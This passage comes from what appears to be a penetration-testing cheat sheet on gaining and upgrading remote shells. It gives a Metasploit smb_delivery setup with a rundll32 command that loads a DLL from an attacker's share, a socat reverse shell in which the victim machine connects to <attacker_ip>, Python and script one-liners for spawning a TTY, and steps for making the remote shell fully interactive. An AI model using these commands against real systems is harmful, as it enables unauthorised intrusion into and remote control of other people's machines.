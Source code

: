```
use exploit/windows/smb/smb_delivery
set srvhost 192.168.1.109 //your LHOST
exploit
```

On target machine:

```cmd
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

#### Spawning a TTY Shell

**Python**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Socat**

*   On attacker machine:

    ```bash
    socat file:`tty`,raw,echo=0 tcp-listen:4444
    ```
*   On victim machine:

    ```bash
    socat exec:"/bin/bash -li",pty,stderr,setsid,sigint,sane tcp:<attacker_ip>:<attacker_port>
    ```

**Script**

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

#### Upgrading to a Fully Interactive TTY

1.  Background the remote shell with `CTRL-Z`.

    ```
    user@remote:~$ ^Z
    ```
2.  On your local machine, get terminal dimensions.

    ```bash
    user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; //g'
    rows 50 cols 180
    ```
3.  Set local shell to raw mode and foreground the remote shell.

    ```bash
    user@local:~$ stty raw -echo; fg
    ```
4.  Once back in the remote shell, set the correct size.

    ```bash
    user@remote:~$ stty rows 50 cols 180
    ```
5.  Set terminal type for colors.
